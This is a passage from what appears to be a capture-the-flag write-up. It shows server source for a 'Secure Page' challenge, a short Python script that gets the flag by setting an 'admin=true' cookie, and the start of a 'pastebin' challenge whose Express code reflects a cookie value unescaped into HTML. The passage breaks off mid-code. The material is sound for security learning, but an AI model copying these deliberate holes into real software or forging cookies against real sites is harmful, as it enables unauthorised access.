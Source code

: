 ```python
                <h1>Secure Page</h1>
                %s
            </div>
        ''' % os.environ.get('FLAG', 'flag is missing!'), headers)
    else:
        return (200, '''
            <title>Secure Page</title>
            <link rel="stylesheet" href="/style.css" />
            <div class="container">
                <h1>Secure Page</h1>
                Sorry, you must be the admin to view this content!
            </div>
        ''', headers)

server.run('0.0.0.0', 3000)
```

### Steps

Similar to the previous challenge, this one we just need to request on behalf of admin, by setting the cookies ourselves

```python
import requests

URL="https://secure-page.mc.ax"

s = requests.Session()

cookies = {"admin": "true"}
res = s.get(URL, cookies=cookies)
print(res.text)
```

## pastebin

### Description

URL: https://pastebin.mc.ax/ Source code:

```javascript
const crypto = require('crypto');
const express = require('express');
const app = express();

const pastes = new Map();
const add = (paste) => {
  const id = crypto.randomBytes(16).toString('hex');
  pastes.set(id, paste);
  return id;
};

app.use(require('body-parser').urlencoded({ extended: false }));

app.use((_req, res, next) => {
  res.set('set-cookie', `error=;expires=Thu, 01 Jan 1970 00:00:01 GMT`);
  next();
});

app.get('/', (req, res) => {
  const error = req.headers?.cookie?.match(/(?:^|; )error=(.+?)(?:;|$)/)?.[1];
  res.type('html');
  res.end(`
    <link rel="stylesheet" href="/style.css" />
```